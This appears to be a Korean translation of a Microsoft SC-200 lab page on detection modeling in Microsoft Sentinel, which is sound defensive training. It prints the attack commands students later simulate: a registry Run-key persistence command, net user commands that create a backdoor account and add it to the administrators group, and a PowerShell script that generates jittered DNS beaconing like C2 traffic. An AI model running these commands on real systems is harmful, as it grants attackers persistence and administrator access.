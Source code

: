 ```yaml
---
lab:
  title: 연습 5 - 검색 모델링 이해
  module: Module 7 - Create detections and perform investigations using Microsoft Sentinel
ms.openlocfilehash: c18f6a316629356bc831cef78f08fd6b6a26cefe
ms.sourcegitcommit: f8918eddeaa7a7a480e92d0e5f2f71143c729d60
ms.translationtype: HT
ms.contentlocale: ko-KR
ms.lasthandoff: 07/08/2022
ms.locfileid: "147038058"
---
```

# <a name="module-7---lab-1---exercise-5---understand-detection-modeling"></a>모듈 7 - 랩 1 - 연습 5 - 검색 모델링 이해

![랩 개요입니다.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex4.png)
### <a name="task-1-understand-the-attacks"></a>작업 1: 공격 이해

>**중요: 이 연습에서는 작업을 수행하지 않습니다.**  이러한 지침은 다음 연습에서 수행할 공격에 대한 설명일 뿐입니다. 이 페이지를 주의 깊게 읽으세요.

공격 패턴은 오픈 소스 프로젝트(https://github.com/redcanaryco/atomic-red-team )를 기반으로 합니다.


#### <a name="attack-1---persistence-with-registry-key-add"></a>공격 1 - 레지스트리 키 추가를 통한 지속성

공격자는 레지스트리 실행 키에 프로그램을 추가합니다. 이렇게 하면 사용자가 로그온할 때마다 프로그램을 실행하여 지속성을 달성합니다.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### <a name="attack-2---user-add-and-elevate-privilege"></a>공격 2 - 사용자 추가 및 권한 상승

이 공격에서는 공격자가 새 사용자를 추가한 다음 권한을 Administrators 그룹으로 높입니다. 그러면 권한이 있는 다른 계정으로 로그온할 수 있게 됩니다.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### <a name="attack-3---dns--c2"></a>공격 3 - DNS/C2 

공격자는 대량의 DNS 쿼리를 명령 및 제어(C2) 서버로 보냅니다. 의도는 단일 원본 시스템 또는 단일 대상 도메인에서 DNS 쿼리 수에 대한 임계값 기반 검색을 트리거하는 것입니다.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### <a name="task-2-understand-detection-modeling"></a>작업 2: 탐지 모델 이해

이 랩에서 사용하는 공격 검색 구성 주기에는 모든 데이터 원본이 포함됩니다. 하지만 실제로는 두 가지 데이터 원본만 중점적으로 검색합니다.

검색을 작성하려면 먼저 KQL 문을 작성해야 합니다. 여기서는 호스트를 공격할 것이므로 KQL 문 작성을 시작하는 데 필요한 대표 데이터가 제공됩니다.


KQL 문을 완성한 후에는 분석 규칙을 만듭니다.

규칙이 트리거되어 경고와 인시던트가 생성되면 조사를 진행하여 보안 운영 분석자의 조사 과정에 도움이 되는 필드가 제공되고 있는지를 확인합니다.

다음으로, 분석 규칙에 다른 변경을 적용합니다.

>**참고:** 일부 경고는 이 랩의 목적에 따라 더 짧은 기간에 트리거됩니다.

## <a name="proceed-to-exercise-6"></a>연습 6 계속 진행
